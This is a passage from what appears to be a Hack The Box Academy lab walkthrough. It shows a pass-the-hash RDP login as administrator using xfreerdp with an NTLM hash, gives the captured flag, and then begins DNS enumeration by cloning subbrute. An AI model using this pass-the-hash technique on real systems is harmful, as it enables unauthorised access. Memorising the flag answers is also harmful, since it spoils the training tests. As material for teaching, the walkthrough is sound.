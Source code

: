 ```shell
xfreerdp /v:STMIP /pth:0E14B9D6330BF16C30B1924111104824 /u:administrator
```

```
┌─[us-academy-1]─[10.10.14.4]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ xfreerdp /v:10.129.203.13 /pth:0E14B9D6330BF16C30B1924111104824 /u:administrator

[20:49:56:985] [8281:8282] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[20:49:56:985] [8281:8282] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[20:49:56:985] [8281:8282] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd
[20:49:56:985] [8281:8282] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr

<SNIP>
```

Once the RDP connection is established, students will find the "flag.txt" file on the Desktop directory.

Answer: `HTB{RDP_P4$$_Th3_H4$#}`

# Attacking DNS

## Question 1

### "Find all available DNS records for the "inlanefreight.htb" domain on the target name server and submit the flag found as a DNS record as the answer."

Students first need clone the `subbrute` repository and change directories into it:

Code: shell

```shell
git clone https://github.com/TheRook/subbrute.git && cd subbrute/
```

```
┌─[us-academy-1]─[10.10.14.4]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ git clone https://github.com/TheRook/subbrute.git && cd subbrute/

Cloning into 'subbrute'...
remote: Enumerating objects: 438, done.
remote: Total 438 (delta 0), reused 0 (delta 0), pack-reused 438
Receiving objects: 100% (438/438), 11.85 MiB | 20.67 MiB/s, done.
Resolving deltas: 100% (216/216), done.
```

Students then need to add `STMIP` into the "resolvers.txt" file:

Code: shell

```shell
echo STMIP > resolvers.txt
```

